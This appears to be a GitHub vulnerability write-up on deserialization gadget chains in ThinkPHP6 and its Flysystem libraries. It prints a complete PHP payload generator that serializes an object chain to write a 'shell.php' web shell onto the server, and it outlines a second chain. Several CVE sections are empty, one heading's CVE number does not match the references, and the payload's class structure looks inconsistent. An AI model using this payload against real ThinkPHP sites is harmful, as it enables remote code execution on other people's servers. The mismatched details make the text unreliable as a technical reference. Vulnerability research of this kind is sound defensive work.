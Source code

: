 # ThinkPHP6 Deserialization Vulnerability Analysis

## Idea

First, global search where the function `__destruct` appears, to facilitate subsequent analysis. And a total of five functions `__destruct` are found.

![](img/5.png)

```php
// vendor/league/flysystem/src/SafeStorage.php
public function __destruct()
{
    unset(static::$safeStorage[$this->hash]);
}

// vendor/league/flysystem/src/Adapter/AbstractFtpAdapter.php
public function __destruct()
{
    $this->disconnect();
}

// vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php
public function __destruct()
{
    if (! $this->autosave) {
        $this->save();
    }
}

// vendor/topthink/think-orm/src/Model.php
public function __destruct()
{
    if ($this->lazySave) {
        $this->save();
    }
}

// vendor/topthink/think-orm/src/db/Connection.php
public function __destruct()
{
    $this->close();
}
```

### CVE-2021-36564

Global search for file write methods that exist in the project, such as file_put_contents, fwirite and so on.

![](img/1.png)

There are two calls to the `file_put_contents` function in the file `vendor/league/flysystem/src/Adapter/Local.php`, the function `write` and the function `update`.

![](img/2.png)

Now, we need to find a place where the function `write` or function `update` is called, here web analyze the function `write`. We can see it is called by the file `vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php`. And when looking for the `__destruct` function above, one of them exists to call the `save` function, so we can try to use it.

![](img/3.png)

The value of `$config` is obtained by instantiating the class `Config`, and the value of `$contents` is obtained by calling the `cleanContents` function in the abstract class `AbstractCache`. What's more, the value of `$this->adapter`, the value of `$this->file`, and the value of `$this->cache` are all controable.

![](img/4.png)

So, we can use the following payload to achieve the purpose of getshell by writing the malicious file.

```php
<?php

namespace League\Flysystem\Adapter {

    use League\Flysystem\Cached\Storage\AbstractCache;

    class Local extends AbstractCache{
        public function save() { }

        public function load() { }
    }

    class AbstractAdapter {
        protected $pathPrefix;
        public function __construct() {
            $this->pathPrefix = "./";
        }
    }
}

namespace League\Flysystem\Cached\Storage {

    use League\Flysystem\Adapter\Local;

    abstract class AbstractCache {
        protected $autosave = false;
        protected $cache = ["*\<?php phpinfo();?>\\"];
    }

    class Adapter extends AbstractCache {
        protected $adapter;
        protected $file;
        protected $expire = null;

        public function __construct() {
            $this->adapter = new Local();
            $this->file = "shell.php";
        }

        public function save() { }

        public function load() { }
    }
}

namespace {
    use League\Flysystem\Cached\Storage\Adapter;
    $payload = new Adapter();
    echo base64_encode(serialize($payload));
}
```

![](img/6.png)


### CVE-2021-3656

Unlike the analysis above which uses file write to getshell, this time we find gadget by forward analyze the use of the `__destruct` function.

We use the `__destruct` function in the file `vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php` as a starting point for our analysis.

![](img/7.png)

First, we need to find an inheritance class of the Model class that implements the save method, I have selected the file `vendor/topthink/think-filesystem/src/filesystem/CacheStore.php`.

![](img/8.png)


The value of `$this->store` is controable, so we can use the `set` method in any class. And the value of `$contents` is also controable.

Finally, we are able to reach the purpose in `thinkphp/vendor/topthink/framework/src/think/cache/driver/File.php`.

![](img/9.png)



### CVE-2022-33107

### CVE-2022-38352

### CVE-2022-459
82




## Reference
 - [`CVE-2021-36564`](https://github.com/top-think/framework/issues/2559)
 - [`CVE-2021-36567`](https://github.com/top-think/framework/issues/2561)
 - [`CVE-2022-33107`](https://github.com/top-think/framework/issues/2717)
 - [`CVE-2022-38352`](https://github.com/top-think/framework/issues/2749)
 - [`CVE-2022-45982`](https://github.com/top-think/framework/issues/2793)